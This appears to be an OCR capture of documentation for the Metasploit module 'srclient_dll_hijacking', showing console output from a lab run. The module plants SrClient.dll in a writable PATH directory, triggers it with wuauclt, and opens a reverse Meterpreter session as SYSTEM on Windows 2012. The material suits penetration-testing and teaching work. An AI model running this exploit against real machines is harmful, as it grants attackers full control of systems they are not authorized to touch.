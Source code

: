 ```


msf6 exploit(windows/local/srclient_dll_hijacking) > run

[*] Started reverse TCP handler on 192.168.91.12:4444 
[*] Executing automatic check (disable AutoCheck to override)
[*] Target is Windows 2012 (6.2 Build 9200).
[*] Obtaining group information for the current user WIN-FCDUOQDT1NB\wynter...
[*] 
[*]     Everyone
[*]     BUILTIN\Users
[*]     NT AUTHORITY\INTERACTIVE
[*]     CONSOLE LOGON
[*]     NT AUTHORITY\Authenticated Users
[*]     NT AUTHORITY\This Organization
[*]     NT AUTHORITY\Local account
[*]     LOCAL
[*]     NT AUTHORITY\NTLM Authentication
[*] 
[*] Checking for writable directories in %PATH%...
[*] 
[*]     Checking permissions for C:\Windows\system32
[*]     Checking permissions for C:\Windows
[*]     Checking permissions for C:\Windows\System32\Wbem
[*]     Checking permissions for C:\Windows\System32\WindowsPowerShell\v1.0\
[*]     Checking permissions for C:\wynter
[*] 
[+] WIN-FCDUOQDT1NB\wynter has write permissions to the following %PATH% directories:
[*] 
[*]     C:\wynter
[*] 
[+] The target appears to be vulnerable.
[*] Writing 5120 bytes to C:\wynter\SrClient.dll...
[*] Trying to trigger the payload in the background via the shell command `wuauclt /detectnow`
[*] Sending stage (201283 bytes) to 192.168.91.16
[*] Meterpreter session 4 opened (192.168.91.12:4444 -> 192.168.91.16:49159) at 2021-02-16 08:59:24 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
### Windows 2012 x64 - WRITABLE_PATH_DIR option set, Verbose set to false
```
msf6 exploit(windows/local/srclient_dll_hijacking) > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  8         meterpreter x64/windows  WIN-FCDUOQDT1NB\wynter @ WIN-FCDUOQDT1NB  192.168.91.12:8443 -> 192.168.91.16:49158 (192.168.91.16)

msf6 exploit(windows/local/srclient_dll_hijacking) > show options 

Module options (exploit/windows/local/srclient_dll_hijacking):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   SESSION            8                yes       The session to run this module on.
```